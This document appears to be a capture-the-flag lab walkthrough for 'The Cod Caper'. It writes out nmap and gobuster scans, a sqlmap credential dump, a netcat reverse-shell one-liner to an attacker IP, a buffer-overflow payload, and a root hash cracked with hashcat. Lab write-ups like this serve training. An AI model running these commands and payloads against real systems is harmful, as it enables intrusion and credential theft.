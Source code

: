 # The Cod Caper

- Run nmap 
```
nmap -sC -sV -Pn -oN nmap/initial 10.10.40.147
```
- ssh and http are running on the server
- Run gobuster on the server
```
gobuster dir -u http://10.10.40.147:80/ -w big.txt -x php,js,css,html,py,sh,cfg,txt
```
- Found administrator.php
- Checking for sql injection using sqlmap
```
sqlmap -u http://10.10.40.147/administrator.php --forms --dump
```
- Form is vulnerable to sqli
```
Database: users
Table: users
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

```
- Login using these credentials
- Get a reverse shell using nc
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.73.202 4242 >/tmp/f
```
- Send the linpeas.sh to the server
    - Create an http server in the dir where linpeas.sh is present on the attack machine
    - Then download the file using wget or curl on the victim machine

- Found a hidden dir in /var/hidden where the password is stored
```
Password: pinguapingu
```
- Run linpeas.sh and there is a binary in `/opt/secret/root`
- The file is vulnerable to buffer overflow
```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```
- Found the root hash password
```
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
```
- Used hashcat to crack  the hash
```
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
- The password is `love2fish`